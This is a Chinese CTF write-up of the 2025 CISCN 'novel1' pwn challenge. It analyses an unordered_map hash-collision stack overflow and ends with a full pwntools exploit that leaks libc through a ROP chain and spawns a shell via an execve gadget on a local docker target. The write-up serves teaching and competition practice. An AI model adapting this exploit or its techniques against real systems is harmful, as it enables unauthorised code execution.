# 2025 ciscn novel1详细解析-先知社区

> **来源**: https://xz.aliyun.com/news/16248  
> **文章ID**: 16248

---

## 程序保护



## 漏洞分析



### part1



主要功能：

1. 检查当前 `bloodstains` 哈希表中的元素数量是否超过 31（可能有容量限制）。
2. 提示用户输入 "Blood"（某个血迹的标识符）并检查该标识符是否已经存在于哈希表中。
   * 如果存在，提示 "This bloodstain has been found."。
   * 如果不存在，则继续处理。
3. 提示用户输入 "Evidence"（某种关联的数据）并将其与血迹标识符关联存储到哈希表中。

注意的点这里使用了unordered\_map

C++ 标准模板库（STL）中的 `std::unordered_map` 和 `std::unordered_set` 使用了哈希桶 来存储hash表，该程序实现哈希桶是通过链地址法，重复的键通过链表存储在桶中，那么我们就要找到hash函数，这里的hash函数在  




通过动调可以发现这个a2是我们输入的值 a3是13 也就是说 hash函数是 hash=value % 13 通过这个来决定桶结点，此时如果桶节点重复的话 就会用链表进行存储，并且是堆的形式存储的







这里可以看出来后面是根据桶的结点 将值插入进去 通过动态调试分析发现



确实是将值insert进去了

### part2


part2结束后就直接退出了，也基本暗示这里基本就是漏洞函数了

功能实现

1. 在哈希表 `bloodstains` 中查找该标识符

   * 如果未找到，输出提示 `"This bloodstain has not been found."`。
   * 如果找到了，继续分析。
2. 查找与输入标识符相关的哈希桶（bucket）

   ，并遍历桶内的所有键值对：

   * 将桶内的所有元素拷贝到 `v3` 中。

遍历桶内所有元素

std::unordered\_map<...>::end(v9, &bloodstains, v12);

std::unordered\_map<...>::begin(v10, &bloodstains, v12);

std::copy<...>((**int64)v10, (**int64)v9, (\_\_int64)v3);

此时的v3在栈段上 因为是输出桶内所有元素，因此我们只要保证所有的值都在同一个桶内 就可能导致溢出。由于我们前面找到了hash函数因此我们只要每次都是13的整数可以除于 最后在part2部分索引桶0就可以了，关键调试点:0x402BD6





copy结果，还需要多增加几个chunk,但是会发现此时链表结构不对了 又发生了变化，C++ 中的 `std::unordered_map` 动态扩展机制类似于 C 的动态数组，会根据负载因子自动扩容（从 13 扩展到 29），新桶数组重新哈希分配，链表通过索引计算（如 `i * 29`）重新串联。这个29可以通过调试出来 可以看到0x70被free了因此 是13+(0x70+0x10)/8

## 动态调试过程



我们控制这个返回author 也就是我们开始输入的值，由于还有控制rsp后还有两次pop 因此我们返回 author-0x10的位置



然后泄露libc的值 返回main函数



返回main函数之后 流程和之前的不一样 发现输入之后不会正常跳转程序流 而是会报错



通过进一步动调发现 返回后会直接ret到 我们输入的第二个64位的位置 相当于直接劫持程序流

这里我们常规直接去打system会出现问题，我们这里选择打libc中的


通过启动docker进入 拿到里面的libc后 就可以get shell了



## exp

```
#!/usr/bin/python3
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *


#--------------------setting context---------------------
context.clear(arch='amd64', os='linux', log_level='debug')

#context.terminal = ['tmux', 'splitw', '-h']
sla = lambda data, content: mx.sendlineafter(data,content)
sa = lambda data, content: mx.sendafter(data,content)
sl = lambda data: mx.sendline(data)
rl = lambda data: mx.recvuntil(data)
re = lambda data: mx.recv(data)
sa = lambda data, content: mx.sendafter(data,content)
inter = lambda: mx.interactive()
l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))
s=lambda data: mx.send(data)
log_addr=lambda data: log.success("--->"+hex(data))
p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

def dbg():
    gdb.attach(mx)

#---------------------------------------------------------
# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')
filename = "./novel1"
#mx = process(filename)
mx = remote("172.17.0.2",9999)
elf = ELF(filename)

#初始化完成---------------------------------------------------------\
rl("Author: ")
pop_rdi_rbp=0x4025C0
puts_got=elf.got['puts']
puts_plt=elf.plt['puts']
sl(p64(0x4025C0)+p64(puts_got)+p64(0)+p64(puts_plt)+p64(0x4027a3))
def change(p64_bytes):
    integer_value = struct.unpack("<Q", p64_bytes)[0]  # 小端格式

    return integer_value
def part1(Blood,Evidence):

    rl("Chapter: ")
    sl(str(1))
    rl("Blood: ")
    sl(Blood)
    rl("Evidence: ")
    int_Evidence=change(Evidence)
    sl(str(int_Evidence))
def part2(Blood):
    rl("Chapter: ")
    sl(str(2))
    rl("Blood: ")
    sl(str(Blood))

part1(str(0 * 29), p64(0))
part1(str(1 * 29), p64(1))
part1(str(2 * 29), p64(2))
part1(str(3 * 29), p64(3))
part1(str(4 * 29), p64(4))
part1(str(5 * 29), p64(5))
part1(str(6 * 29), p64(6))
part1(str(7 * 29), p64(7))
part1(str(8 * 29), p64(8))
part1(str(9 * 29), p64(9))
part1(str(10 * 29), p64(0x4025be))
part1(str(11 * 29), p64(0x40a530))
part1(str(12 * 29), p64(12))
part1(str(13 * 29), p64(13))
part1(str(14 * 29), p64(14))
part1(str(15 * 29), p64(15))
part1(str(16 * 29), p64(16))
part1(str(17 * 29), p64(17))
part1(str(18 * 29), p64(18))
part1(str(19 * 29), p64(19))
part1(str(20 * 29), p64(20))
part1(str(21 * 29), p64(21))
part1(str(22 * 29), p64(22))
pause()
part2(0)
rl('638\n')
rl('638\n')
rl('638\n')
rl('638\n')
rl('638\n')
rl('638\n')
rl('638\n')
libc_addr=h64()-0x80e50
log_addr(libc_addr)

#----------second
pause()
pop_rdi=libc_addr+0x000000000002a3e5
execve=0xebc88+libc_addr
ret=libc_addr+0x000000000002882f
pop_rsi=libc_addr+0x000000000002be51
pop_rdx=libc_addr+0x000000000011f2e7
bin_sh =libc_addr+0x1d8678
rl("Author: ")

sl(p64(0)*3+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)*2+p64(execve))
inter()
```
